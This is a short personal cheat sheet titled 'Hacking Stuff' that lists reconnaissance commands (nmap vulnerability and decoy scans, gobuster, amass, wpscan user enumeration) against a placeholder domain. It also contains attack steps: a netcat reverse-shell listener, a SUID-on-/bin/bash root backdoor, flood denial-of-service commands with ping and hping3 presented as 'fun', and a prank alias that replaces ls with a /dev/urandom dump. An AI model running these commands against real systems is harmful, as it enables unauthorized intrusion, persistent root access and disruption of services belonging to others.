 # Hacking Stuff

------------------------------------------------------- 
                      # RECON STUFF
------------------------------------------------------- 

rustscan -a domain.com

nikto -h domain.com

amass enum -d domain.com

curl -i domain.com
whois domain.com
whatweb domain.com

nmap -sV domain.com
nmap -O domain.com
nmap -sL domain.com
nmap --script vuln domain.com
nmap --script malware domain.com
nmap -A domain.com
nmap -D RND:10 domain.com

gobuster dir -u domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u domain.com -w /usr/share/seclists/

sublist3r -d domain.com


tshark -Y'http.request.method == "GET" -i eth0


wpscan --url domain.com --enumerate u
wpscan --url domain.com --enumerate vp,vt --plugins-detection

nc -lvnp 1234



sudo chmod +s /bin/bash
bash -p




------------------------------------------------------- 
                      # FUN STUFF
------------------------------------------------------- 

ping -s 1300 -f domain.com

hping3 -S -V --flood domain.com

hping3 --traceroute -V -1 domain.com

cat /dev/urandom
alias ls="cat /dev/urandom"


